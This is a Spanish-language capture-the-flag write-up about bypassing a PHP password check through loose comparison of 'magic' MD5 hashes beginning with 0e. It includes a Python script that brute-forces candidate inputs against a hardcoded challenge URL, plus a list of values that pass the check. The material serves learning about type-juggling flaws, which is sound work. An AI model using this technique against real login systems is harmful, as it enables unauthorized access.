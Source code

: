 Para este reto solo se nos proporciona una URL. 
Si accedemos a ella, tan solo vemos un pequeño código en PHP. 

![[Pasted image 20220128215217.png]]

Como se puede ver, tenemos un endpoint llamado "flag.php" y este php está corriendo el código que hemos visto con anterioridad.

Si analizamos un poco el código nos podemos dar cuenta de que hay un hash precomputado (`0e540853622400160407992788832284`) y dos variables x1 (`0f6a`) y x2 (`ed`).
Además, hay un condicional que evalua si la concatenación de x1 con x2 y con el valor del parámetro `password_introducida` ,que le pasamos a flag.php, es igual al hash después de la manipulación de tipos. 
En caso de ser true, nos devuelve la flag y si es false el mensaje "`Intentalo de nuevo`". 

El problema aquí está relacionado con la forma en que PHP realiza la comprobación de tipos. 

En el caso del hash (`0e540853622400160407992788832284`), PHP ve un número (0) seguido de la letra "e" y de una serie de dígitos. Entonces, convierte la cadena a notación exponencial. 

![[Pasted image 20220213174008.png]]

En este ejemplo, a pesar de que numero1 y numero2 sean distintos, PHP los convierte a notación exponencial y como da 0 en ambos casos, la condición se evalúa a true. 

Teniendo esto claro, podemos desarrollar un pequeño script que vaya generando hashes a partir de la cadena `0f6aed` y cuando encontremos una cadena cuyo hash empiece por 0e y el resto de valores sean dígitos, tendremos el valor deseado que nos permitirá ver la flag.

El script final es:

```python
import requests
import sys
from pwn import *
import hashlib
from itertools import permutations


x1 = '0f6a'
x2 = 'ed'
x3 = x1 + x2
wordlist = string.ascii_lowercase + string.digits
url = "http://167.86.87.193/flag.php"
tam = 4
perms = []

for i in range(1, tam+1):
    for c in permutations(wordlist, i):
        perms.append("".join(c))

for insercion in perms:
    x3 += str(insercion)
    md5Hash = str(hashlib.md5(x3.encode()).hexdigest())
    if (md5Hash[:2] == "0e" and md5Hash[2:].isdecimal()):
        print("===============================")
        print("[*] Posible hash encontrado [*]")
        print("===============================")
        payload = {'password_introducida': insercion}
        r = requests.get(url, params=payload)
        print("Peticion final --> " + r.url)
        print("Flag --> " + r.text)
    x3 = x3[:-len(insercion)]


```

![[Pasted image 20220213174942.png]]

Valores válidos para password_introducida:

```
07
575546346
890067202
1842420558
1885667369
2340032704
2582885667
2625723872
```


![[Pasted image 20220213174418.png]]
